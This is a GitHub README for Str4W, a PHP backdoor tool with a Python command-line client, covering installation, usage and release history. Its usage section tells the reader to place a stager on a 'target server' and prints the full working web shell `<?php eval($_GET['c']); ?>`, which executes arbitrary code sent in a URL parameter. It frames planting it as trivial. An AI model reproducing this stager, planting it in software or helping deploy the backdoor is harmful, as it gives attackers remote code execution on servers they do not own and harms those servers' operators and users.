 # Str4W
> A command line PHP backdoor with the simplest stager ever. 

It's a multi functional PHP backdoor (similar to Metasplot to some extent) that uses a very small stager to make powerful things.

![](header.png)

## Installation

This application has been developed with Python 3.7.9 (recommended).
Although, it should work with previous (and future probably) versions of python (> 3.6).

Windows:
   - `pip install -r requirements.txt` to install the required dependencies.
   - `python main.py` to run the application.
   
Linux:
   - `pip3 install -r requirements.txt` to install the required dependencies.
   - `python3 main.py` to run the application.

## Usage example

The CLI is pretty straightforward. The commands are documented, so the user can get a description by using `help <command>`.  
For a complete list of commands, please use `help`.  

Although the interface is kinda user-friendly, you have to place the stager onto the target server.  
Don't worry, it is as simple as placing a PHP file onto the server.  
Just place the following code inside it: `<?php eval($_GET['c']); ?>`.  
Easy as that. 

## Release History
* 1.1
   * Fixed communications error
   * Added rm command
   * Added mv command
   * Added touch command

* 1.0
    * First release!

## Meta

Zeta314 – [@Zeta314](https://github.com/Zeta314)

Distributed under the GPL3.0 license. See ``LICENSE`` for more information.

[https://github.com/Zeta314/Str4W](https://github.com/Zeta314/)

## Contributing

1. Fork it (<https://github.com/Zeta314/Str4W/fork>)
2. Create your feature branch (`git checkout -b feature/fooBar`)
3. Commit your changes (`git commit -am 'Add some fooBar'`)
4. Push to the branch (`git push origin feature/fooBar`)
5. Create a new Pull Request

